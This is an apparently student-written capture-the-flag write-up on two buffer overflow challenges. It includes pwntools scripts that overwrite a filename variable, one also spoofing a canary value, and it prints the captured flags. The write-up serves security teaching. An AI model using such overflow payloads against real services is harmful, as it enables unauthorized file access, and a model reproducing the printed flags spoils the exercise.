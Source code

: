 # Week 5: CTF - web

## Goal

> Gain access to a file by taking advantage of a buffer overflow.

### Challenge 1

> After analyzing the source code, we realized that whatever namefile was in the meme_file variable was the file that was going to be opened, read and printed.
> So if we could change the meme_file variable to the file "flag.txt" we would then have access to this file and its contents.
> Since the *scanf* function reads 28 characters into the 20 character buffer then everything beyond the 20th character will be written to the meme_file variable. So we used the following python code to access the flag.txt file :

```python
#!/usr/bin/python3
from pwn import *

r = remote('ctf-fsi.fe.up.pt', 4003)

r.recvuntil(b":")
r.sendline(b"aaaaaaaaaaaaaaaaaaaa" + b"flag.txt") # Send 20 "trash" bytes and then the value of the file we want to open
r.interactive()

```

> The correct flag for challenge 1 was found:

```text
flag{e2b5a6b98ff37b5c85dd8a59bf222caa}
```

### Challenge 2

> This challenge had some minor changes from the first one in order to prevent a buffer overflow . However, this mitigation did not prove to be efficient since it was easily bypassed.
> A variable has been added between the buffer and meme_file to prevent overflow.
> However, if we could replicate what was written in this variable ("0xfefc2223") the program would assume that this variable had not been changed and would therefore open the file.
> Since the variables are written in the stack bottom-up, the bytes of the val variable must be set in the reverse order. Using the following python script we can perform this attack and get the flag:

```python
from pwn import *

r = remote('ctf-fsi.fe.up.pt', 4000)
r.recvuntil(b":")
r.sendline(b"aaaaaaaaaaaaaaaaaaaa" + b"\x23\x22\xfc\xfe" + b"flag.txt")
r.interactive()

```

> The correct flag for challenge 2 was found:

```text
flag{0e68e08552b7bfe81eb7f7201d81d023}
```
